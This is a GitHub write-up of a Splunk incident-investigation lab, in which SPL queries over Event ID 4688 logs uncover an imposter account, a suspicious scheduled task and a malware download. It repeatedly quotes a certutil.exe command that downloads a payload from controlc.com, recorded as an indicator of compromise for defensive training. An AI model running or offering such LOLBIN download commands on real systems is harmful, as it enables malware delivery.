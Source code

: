 # Splunk-Lab

## Objective

Identify and Investigate an Infected Host

One of the client’s IDS indicated a potentially suspicious process execution indicating one of the hosts from the HR department was compromised. Some tools related to network information gathering / scheduled tasks were executed which confirmed the suspicion. Due to limited resources, we could only pull the process execution logs with Event ID: 4688 and ingested them into Splunk with the index win_eventlogs for further investigation.

About the Network Information:
The network is divided into three logical segments. It will help in the investigation.

### IT Department

James, Moin, Katrina

### HR department

Haroon, Chris, Diana

### Marketing department

Bell, Amelia, Deepak


## Skills Learned

- Splunk Fundamentals
- Log Analysis
- Search Processing Language (SPL) Proficiency
- Incident Investigation with Splunk
- Identifying Indicators of Compromise (IOCs)
- Hands-on SIEM Skills

### Tools Used

- Splunk.


## Steps

### Task 1: Analyze the logs from March 2022 to identify the imposter account.

Procedure:

1. Connect to index=win_eventlogs and set the date range to March 2022.
2. Analyze the UserName field for unusual entries.
   
Outcome: Using the query index=win_eventlogs | top limit=11 UserName, an imposter account named Amel1a was identified at the bottom of the results in the visualization tab, indicating suspicious activity.

Visual: Visualization of top 11 usernames, highlighting the imposter account.

![image](https://github.com/user-attachments/assets/7b54383e-05ff-4a13-a04a-d6a62ca715ec) 

### Task 2: Investigate the HR department.

Procedure:

1. Search within the HR department logs using the query index=win_eventlogs HostNames="*HR*".
2. Examine rare values in the CommandLine field for anomalies.

Visual: CommandLine, Rare Values

![image](https://github.com/user-attachments/assets/26e7ff4e-267e-496c-8e46-16c012fe0e55) 

Visual: Two suspicious activities were observed. 

![image](https://github.com/user-attachments/assets/812b2fb0-1d92-44ef-b4b1-5936ce234543) 



First im going to focus on the bottom one and create a new search with that value:

Visual: New search with the value mentioned above.

![image](https://github.com/user-attachments/assets/f751d7c3-b3ce-4b1c-97bf-c166c7912d61) 

From here I observed that the user Chris.fort from the HR department is running schedulded tasks. Creating a scheduled task to run an executable from a temporary directory (such as AppData\Local\Temp) can be suspicious, as this is a common technique used by malware to maintain persistence on a system. So this could mean that update.exe is an unknown or potentially harmful file.


Shifting focus to the first suspicious command line instance, I searched for the value certutil.exe -urlcache -f - https://controlc.com/e4d11035 benign.exe. This revealed that the LOLBIN certutil.exe was used to download a malicious payload from the file-sharing host controlc.com.

Visual: CommandLine logs and details of the certutil.exe activity.

![image](https://github.com/user-attachments/assets/20c5bfd3-ab2d-40f8-9c76-564c6e2a31cf) 

Outcome:

- User Haroon used certutil.exe (a LOLBIN) to download a payload from https://controlc.com/e4d11035, indicating the use of a file-sharing service (controlc.com) to deliver the benign.exe malware file.
 
Details of the Findings:

- LOLBIN used: certutil.exe -urlcache -f - https://controlc.com/e4d11035 benign.exe
  
- Purpose of certutil.exe: Originally designed for certificate management but abused to download files from the internet.
  
- How LOLBINs Are Used in Attacks: Persistence, defense evasion, and command-and-control are common uses of LOLBINs, which makes their detection challenging.
  
Infected Host Activity:

- User: Haroon

- Third-party site: controlc.com

- Malicious file downloaded: benign.exe

- URL: https://controlc.com/e4d11035

- Date: March 4, 2022


## Conclusion

This project successfully identified an imposter account within event logs and detected suspicious activities in the HR department. Through analysis of LOLBINs and scheduled tasks, we uncovered potential malware persistence and malicious file downloads, demonstrating the importance of log analysis in detecting threats.






































